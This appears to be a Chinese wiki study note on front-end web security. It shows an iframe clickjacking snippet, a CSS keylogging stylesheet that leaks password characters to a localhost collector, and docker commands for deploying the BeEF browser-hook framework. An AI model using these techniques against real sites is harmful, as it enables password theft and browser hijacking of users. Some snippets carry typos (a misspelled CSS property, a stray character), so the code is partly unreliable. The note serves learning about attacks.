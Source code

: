 ```yaml
---
title: 02.前端安全
description: 前端安全
published: 1
date: 2023-06-09T10:16:50.691Z
tags: web, web safe
editor: markdown
dateCreated: 2023-04-19T17:18:42.012Z
---
```


<center>前端安全</center>

[toc]

## 前端安全

> 前端：html  css   javascript



#### 1. html

> `html`超文本标记语言  （光着身子的孩子）
>
> 网页基础，必备



##### 潜在漏洞

> 纯html基本没有漏洞：一个光着身子的小孩子能有什么坏的地方呢...

`iframe clickjack`

> iframe 点击劫持
>
> 设置iframe 透明度度1，点击网站也会进入内嵌框架内

```html
<style>
    iframe{
        opactity:0;
    }
</style>
<iframe src="https://www.baidu.com" frameborder="0"></iframe>
```



#### 2. css

> css: 层叠样式表    (装饰孩子，穿衣服裤子)
>
> 网页基础，必备



##### 潜在漏洞

> css也挺少的  （装饰也会带来问题）

`css-keyloggin` 键盘监控

地址：[keyloggin](https://gitee.com/caketi/CSS-Keylogging.git)

```js
// node.js

npm install 

npm run start 
```

```css
input[type="password"][value$=" "] { background-image: url("http://localhost:3000/+"); }
input[type="password"][value$="!"] { background-image: url("http://localhost:3000/%21"); }
input[type="password"][value$="\""] { background-image: url("http://localhost:3000/%22"); }
input[type="password"][value$="#"] { background-image: url("http://localhost:3000/%23"); }
input[type="password"][value$="$"] { background-image: url("http://localhost:3000/%24"); }
input[type="password"][value$="%"] { background-image: url("http://localhost:3000/%25"); }
input[type="password"][value$="&"] { background-image: url("http://localhost:3000/%26"); }
input[type="password"][value$="'"] { background-image: url("http://localhost:3000/%27"); }
input[type="password"][value$="("] { background-image: url("http://localhost:3000/%28"); }
input[type="password"][value$=")"] { background-image: url("http://localhost:3000/%29"); }
```



#### 3.javascript 

> `javascript`脚本编程语言     （实现网页复杂功能，让孩子**动起来**）
>
> 网页基础，必备    很重要的

```js
// 设置cookie
function setCookie(key,value){

    document.cookie = key + '=' +value;
}x
setCookie('goer','gocookie');
```



##### 潜在漏洞

> 纯javascript漏洞很多    一定要去好好学

> docker 搭beef，javascript写的木马

```shell
docker pull janes/beef # beefproject/beef

docker run -d -p 3000:3000 janes/beef
```

```js
ip:端口/ui/panel 
ip+端口/hook.js //任何ip都行，只要能访问。
```

